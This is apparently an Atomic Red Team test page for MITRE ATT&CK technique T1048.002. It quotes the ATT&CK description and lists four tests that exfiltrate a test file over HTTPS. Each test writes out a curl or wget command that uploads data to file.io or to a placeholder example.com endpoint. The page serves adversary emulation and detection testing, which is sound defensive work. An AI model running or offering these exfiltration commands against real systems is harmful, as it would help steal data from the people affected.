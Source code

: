 # T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos](#atomic-test-2---exfiltrate-data-https-using-curl-freebsdlinux-or-macos)

- [Atomic Test #3 - Exfiltrate data in a file over HTTPS using wget](#atomic-test-3---exfiltrate-data-in-a-file-over-https-using-wget)

- [Atomic Test #4 - Exfiltrate data as text over HTTPS using wget](#atomic-test-4---exfiltrate-data-as-text-over-https-using-wget)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -k -F "file=@#{input_file}" https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://curl.se/windows/dl-8.4.0_6/curl-8.4.0_6-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-8.4.0_6-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
```
##### Description: #{input_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{input_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1048.002/src/artifact" -OutFile "#{input_file}"
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
<br/>

## Atomic Test #3 - Exfiltrate data in a file over HTTPS using wget
Exfiltrate data over HTTPS using wget --post-file method

**Supported Platforms:** Linux


**auto_generated_guid:** 7ccdfcfa-6707-46bc-b812-007ab6ff951c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test data to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| endpoint_domain | Endpoint to send data to | string | https://example.com/|


#### Attack Commands: Run with `sh`! 


```sh
wget --post-file="#{input_file}" --timeout=5 --no-check-certificate #{endpoint_domain} --delete-after
```






<br/>
<br/>

## Atomic Test #4 - Exfiltrate data as text over HTTPS using wget
Exfiltrate data over HTTPS using wget --post-data method

**Supported Platforms:** Linux


**auto_generated_guid:** 8bec51da-7a6d-4346-b941-51eca448c4b0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| endpoint_domain | Endpoint to send data to | string | https://example.com/|


#### Attack Commands: Run with `sh`! 


```sh
wget --post-data="msg=AtomicTestT1048.002" --timeout=5 --no-check-certificate #{endpoint_domain} --delete-after
```






<br/>
